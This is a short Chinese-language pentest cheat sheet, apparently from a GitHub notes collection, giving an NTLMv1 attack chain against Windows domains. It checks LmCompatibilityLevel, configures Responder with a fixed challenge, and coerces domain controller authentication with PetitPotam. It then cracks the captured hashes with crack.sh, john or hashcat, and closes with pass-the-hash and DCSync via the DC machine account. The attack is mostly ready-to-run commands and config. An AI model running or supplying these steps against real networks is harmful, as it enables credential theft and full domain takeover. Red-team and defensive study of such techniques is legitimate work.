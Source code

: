	Net-NTLM (NTLMv1) 散列用于网络身份验证（它们源自质询/响应算法并基于用户的 NT 散列。
	要求：
	LmCompatibilityLevel = 0x1：发送 LM & NTLM ( reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v lmcompatibilitylevel)
	使用 Responder 捕获：编辑/etc/responder/Responder.conf文件
```bash
	HTTPS = On
	DNS = On
	LDAP = On
	...
	; Custom challenge.
	; Use "Random" for generating a random challenge for each requests (Default)
	Challenge = 1122334455667788
```
	Fire Responder: responder -I eth0 --lm，如果--disable-ess设置，扩展会话安全将被禁用 NTLMv1 身份验证
	>PetitPotam.exe Responder-IP DC-IP #2021 年 8 月左右修补
	>PetitPotam.py -u Username -p Password -d Domain -dc-ip DC-IP Responder-IP DC-IP #未为经过身份验证的用户打补丁
	如果获取到些NTLMv1 hashes
	去这里https://crack.sh/
	或者用 Hashcat / John The Ripper 破解
	>john --format=netntlm hash.txt
	>hashcat -m 5500 -a 3 hash.txt
	现在可以通过 DC 机器帐户使用 Pass-The-Hash 进行 DCSync